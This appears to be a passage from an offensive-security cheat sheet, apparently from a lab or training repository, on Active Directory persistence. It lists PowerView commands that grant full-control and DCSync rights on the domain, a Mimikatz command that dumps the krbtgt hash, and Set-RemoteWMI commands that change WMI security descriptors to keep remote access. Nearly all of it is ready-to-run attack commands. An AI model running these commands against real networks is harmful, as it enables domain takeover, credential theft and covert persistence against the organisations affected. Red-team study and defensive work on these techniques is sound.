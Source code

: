 ### DCsync
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

#### Add Full-control rights
```
Add-DomainObjectAcl -TargetIdentity "dc=<DOMAIN>,dc=<TOP DOMAIN>" -PrincipalIdentity <USER> -Rights All -PrincipalDomain <DOMAIN< -TargetDomain <DOMAIN> -Verbose
```

#### Add rights for DCsync
```
Add-DomainObjectAcl -TargetIdentity "dc=<DOMAIN>,dc=<TOP DOMAIN>" -PrincipalIdentity studentuser1 -Rights DCSync -PrincipalDomain <FQDN DOMAIN> -TargetDomain <FQDN DOMAIN> -Verbose 
```

#### Execute DCSync and dump krbtgt
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

### SecurityDescriptor - WMI
```
. ./Set-RemoteWMI.ps1
```

#### On a local machine
```
Set-RemoteWMI -Username <USERNAME> -Verbose
```

#### On a remote machine without explicit credentials
```
Set-RemoteWMI -Username <username> -Computername <COMPUTERNAME> -namespace ‘root\cimv2’ -Verbose
```

#### On a remote machine with explicit credentials
- Only root/cimv and nested namespaces
```
Set-RemoteWMI -Username <username> -Computername <COMPUTERNAME> -Credential Administrator -namespace ‘root\cimv2’ -Verbose
```

#### On remote machine remove permissions
```
Set-RemoteWMI -Username <USERNAME> -Computername <COMPUTERNAME> -namespace ‘root\cimv2’ -Remove -Verbose
```

#### Check WMI permissions
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <COMPUTERNAME>
```

### SecurityDescriptor - Powershell Remoting
```
. ./Set-RemotePSRemoting.ps1
```
